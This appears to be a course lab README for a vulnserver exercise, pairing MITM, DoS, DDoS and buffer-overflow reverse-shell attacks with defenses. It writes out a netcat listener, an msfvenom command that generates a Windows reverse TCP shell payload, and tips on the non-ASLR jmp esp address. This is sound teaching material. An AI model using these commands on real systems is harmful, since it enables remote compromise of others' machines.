

## Test setting
- Local host (kali VM): 10.0.2.8
- Victim host (Windows 10 VM: 10.0.2.7

## MITM
### Attack
This attack shows how a message may be changed by the chat server, which works as the man in the middle (MITM) between two chat clients, if there is no protection (interity). To enabe the attack, the chat server owner (bad guy) can do the following

1. Use telnet to connect to the chat server
```
telnet 10.0.2.7 9999
```

2. Enable MITM within telnet 
```
MITM 1
```
Now all messages will be appended with " hahaha...".

[](https://youtu.be/1dctJFBwZcI)

### Defense
* [Hash](https://www.cyberciti.biz/faq/linux-md5-hash-string-based-on-any-input-string/) - What is the problem if only hash is used?
* [HMAC with hash (SHA or MD5)](https://dinochiesa.github.io/hmachash/index.html)

## DoS.py
### Attack
This attack exploits the buffer overflow issue of vulnserver and sends a long message, which causes buffer overflow and crash of vulnserver.

[](https://youtu.be/_F88Txt7Qk0)

### Defense
The attack above utilizes the buffer overflow vulnerability of vulnserver. Secure coding is needed for defense. Dangerous functions such as strcpy(.) cannot be used.

## DDoS.py
### Attack
Since vulnserver allows only a limited number of connections, this attack creates a lot of connections to vulnserver so that no more new connections can be created and no new user can use vulnserver for chatting.

[](https://youtu.be/lOR4hpPfPws)

### Defense
DDoS is often is hard to defeat. In this particular case, an attacker creates a lot of connections to the chat server. For defense, we may need to monitor the number of connections from an inidvidual user.

## reverse-shell.py
### Attack
This attacks ubtilizes the buffer overflow vulnerability of vulnserver and sends a reverse tcp shell payload, which connects back to the attack and spawns a shell at the attacker.
To receive the reverse shell, run the following command at another terminal
```
nc -l -v -p 4444
``` 

[](https://youtu.be/LRNZxCC84RI)

### Notes
1. If the test setting above is used, the python attacking code works directly with no need of change.
2. If the address of *jmp esp* comes from essfunc.dll as used in the example Python code, essfunc.dll does not use ASLR and there is no need of changing the address of *jmp esp* when Windows 10 reboots.
3. If the ip of the local host (attacker's computer) is 10.0.2.8, no need of generating the shellcode using the following command
```
msfvenom -p windows/shell_reverse_tcp LHOST=10.0.2.8 LPORT=4444 EXITFUNC=thread -f python -v SHELL -b '\x00\x0a\x0d' 
```

```
kali@kali:~$ msfvenom -h
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
```

<!--  -->

### Defense
Windows has a lot of secure features, including those defeating memory based attacks. Enable all features of Exploit Protection of Windows.


